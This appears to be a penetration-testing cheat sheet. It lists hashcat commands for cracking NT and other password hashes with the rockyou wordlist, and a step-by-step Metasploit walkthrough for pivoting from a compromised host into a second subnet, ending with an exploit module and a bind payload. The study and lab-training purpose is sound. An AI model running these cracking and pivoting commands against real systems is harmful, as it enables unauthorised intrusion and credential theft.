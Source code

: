 - Hashcat
	- -m : hash type id found in help menu
		- `hashcat --help | grep -i 512` : look for sah512 or ntlm
	- -a : attack type id found in help menu
	- `hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
		- brute force NT hash on *hashes.txt* with wordlist *rockyou.txt*
	- `hashcat -a 3 -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt`

```
Usage: hashcat [options]... hash|hashfile|hccapxfile [dictionary|mask|directory]...

- [ Basic Examples ] -

  Attack-          | Hash- |
  Mode             | Type  | Example command
 ==================+=======+==================================================================
  Wordlist         | $P$   | hashcat -a 0 -m 400 example400.hash example.dict
  Wordlist + Rules | MD5   | hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule
  Brute-Force      | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a
  Combinator       | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict
  Association      | $1$   | hashcat -a 9 -m 500 example500.hash 1word.dict -r rules/best64.rule
```

---

# Pivoting
Jumping to another network through a compromised machine. You can port-forward ports and route traffic through a machine.
```
Attacker >>----------------> Target1 >>----------------> Target2
192.168.1.2 --------- 192.168.1.3 & 10.10.10.2 --------- 10.10.10.3
--------- 192.168.1.0/24 ------------------ 10.10.10.0/24---------
```

## Walkthrough with Metasploit-Framework
1. Get meterpreter session on *Target1*
2. Find ip/subnet for the second network
	1. `route`
	2. `ifconfig`
3. Run autoroute to create a route to the second network through *Target1*
	1. `run autoroute -s 10.10.10.0 -n 255.255.255.0` : can use CIDR
	2. `run autoroute -p` : print existing routes
4. Scan *Target2* using scanning module
	1. `use auxiliary/scanner/portscan/tcp`
	2. `set rhosts` to *target2*
	3. `background`
5. Set up port forwarding for port 80
	- example : *localhost:1234 <--> 10.10.10.3:80*
	- run inside *meterpreter session*
	- `portfwd add -l 1234 -p 80 -r 10.10.10.3`
		- `-l` : local port
		- `-p` : remote port
		- `-r` : remote target - *Use IP not Hostname*
6. Scan *Target2*
	1. `nmap -sV -p1234 localhost`
7. Select module to attack *Target2*
	1. `use exploit/windows/http/badblue_passthru`
	2. `set payload windows/meterpreter/bind_tcp` : need to use bind

---